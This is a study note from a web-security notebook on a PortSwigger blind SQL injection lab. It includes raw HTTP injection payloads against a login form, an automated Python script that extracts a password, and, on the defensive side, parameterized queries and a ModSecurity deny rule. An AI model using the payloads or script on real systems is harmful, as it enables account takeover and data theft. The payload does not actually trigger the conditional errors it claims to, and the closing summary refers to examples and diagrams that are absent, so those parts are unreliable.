

## Types of SQL Injection

There are several types of SQL Injection attacks, including:

1. **Classic SQL Injection**: This is the most straightforward form where the attacker injects SQL code into a vulnerable input field.
2. **Blind SQL Injection**: In this type, the attacker does not receive direct feedback from the database but can infer information based on the behavior of the application.
3. **Union-Based SQL Injection**: Here, the attacker uses the UNION operator to combine the results of two or more SELECT statements.
4. **Time-Based SQL Injection**: This technique relies on the time taken by the database to respond to determine the correctness of the injected SQL code.

### Blind SQL Injection with Conditional Errors

Blind SQL Injection with conditional errors is a sophisticated form of SQL Injection where the attacker infers information about the database structure and data by observing the application's behavior. This type of attack is often used when the application does not return any error messages or useful information.

#### Example Scenario

Let's consider a scenario where an attacker is trying to extract the password of a user from a database using Blind SQL Injection with conditional errors. The attacker sends a series of payloads to the application and observes the HTTP response codes to infer the correct characters of the password.

### Step-by-Step Mechanics

1. **Identify Vulnerable Input Field**: The attacker identifies an input field that is vulnerable to SQL Injection.
2. **Craft Payloads**: The attacker crafts payloads that cause the database to generate different HTTP response codes based on the truth value of the injected SQL condition.
3. **Observe Response Codes**: The attacker observes the HTTP response codes to determine the correct characters of the password.

#### Detailed Example

Suppose the attacker is trying to extract the password of a user named `admin`. The attacker sends the following payload to the application:

```http
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=admin' AND IF(SUBSTRING(password,1,1)='W',1,0)--&password=
```

This payload checks if the first character of the password is `W`. If true, the application returns a `200 OK` response; otherwise, it returns a `500 Internal Server Error`.

The attacker repeats this process for each character of the password, adjusting the payload accordingly.

### Full Raw HTTP Messages

Here is an example of the full HTTP request and response for the above payload:

**HTTP Request:**

```http
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

username=admin' AND IF(SUBSTRING(password,1,1)='W',1,0)--&password=
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

In this case, the `200 OK` response indicates that the first character of the password is indeed `W`.

### Python Script for Automating the Attack

To automate the process of extracting the password using Blind SQL Injection with conditional errors, the attacker can use a Python script. Here is an example script:

```python
import requests

def get_password_length(url):
    length = 1
    while True:
        payload = f"admin' AND IF(LENGTH(password)={length},1,0)--"
        data = {'username': payload, 'password': ''}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            return length
        length += 1

def extract_password(url, length):
    password = ''
    for i in range(1, length + 1):
        for char in range(32, 127):  # ASCII printable characters
            payload = f"admin' AND IF(ASCII(SUBSTRING(password,{i},1))={char},1,0)--"
            data = {'username': payload, 'password': ''}
            response = requests.post(url, data=data)
            if response.status_code == 200:
                password += chr(char)
                break
    return password

url = 'http://vulnerable-app.com/login'
length = get_password_length(url)
password = extract_password(url, length)
print(f"The password is: {password}")
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Input Validation**: Failing to validate and sanitize user input can lead to SQL Injection vulnerabilities.
2. **Error Handling**: Improper error handling can reveal sensitive information to attackers.
3. **Use of Dynamic SQL**: Using dynamic SQL without proper parameterization can expose the application to SQL Injection attacks.

#### Detection

Detection of SQL Injection vulnerabilities can be done through various methods:

1. **Static Code Analysis**: Tools like SonarQube, Fortify, and Veracode can analyze the codebase for potential SQL Injection vulnerabilities.
2. **Dynamic Analysis**: Tools like Burp Suite, OWASP ZAP, and SQLMap can be used to test the application for SQL Injection vulnerabilities.
3. **Penetration Testing**: Conducting regular penetration testing can help identify and mitigate SQL Injection vulnerabilities.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Parameterized Queries**: Use parameterized queries or prepared statements to ensure that user input is treated as data rather than executable code.
2. **Input Validation**: Validate and sanitize all user input to ensure it conforms to expected formats.
3. **Least Privilege Principle**: Ensure that the database user has the minimum necessary privileges required to perform its tasks.

#### Example of Secure Code

Here is an example of secure code using parameterized queries in Python:

```python
import sqlite3

def login(username, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = "SELECT * FROM users WHERE username=? AND password=?"
    cursor.execute(query, (username, password))
    user = cursor.fetchone()
    conn.close()
    return user
```

#### Configuration Hardening

1. **Disable Error Reporting**: Disable detailed error reporting in production environments to prevent attackers from gaining insights into the application's internal workings.
2. **Use Web Application Firewalls (WAF)**: Implement WAFs to filter out malicious traffic and protect against SQL Injection attacks.

#### Example of WAF Configuration

Here is an example of configuring a WAF to protect against SQL Injection attacks using ModSecurity:

```apache
<IfModule mod_security.c>
    SecRule ARGS "@rx (?i)(union|select|insert|delete|drop|alter|create|grant|revoke)" "id:1001,deny,status:403,msg:'SQL Injection Attempt'"
</IfModule>
```

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to learn and practice SQL Injection techniques.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities, including SQL Injection.

By thoroughly understanding the mechanics of SQL Injection and implementing robust defensive measures, developers and security professionals can significantly reduce the risk of SQL Injection attacks.

---

This expanded explanation covers the core concepts of SQL Injection, provides detailed examples, and includes practical advice on how to prevent and defend against such attacks. The inclusion of recent real-world examples, complete code snippets, and mermaid diagrams enhances the depth and clarity of the explanation.

---
<!-- nav -->
[[03-Real-World Examples|Real-World Examples]] | [[Web Security (PortSwigger)/02-SQL Injection/13-Lab 12 Blind SQL injection with conditional errors/00-Overview|Overview]] | [[05-Understanding the Attack Scenario|Understanding the Attack Scenario]]
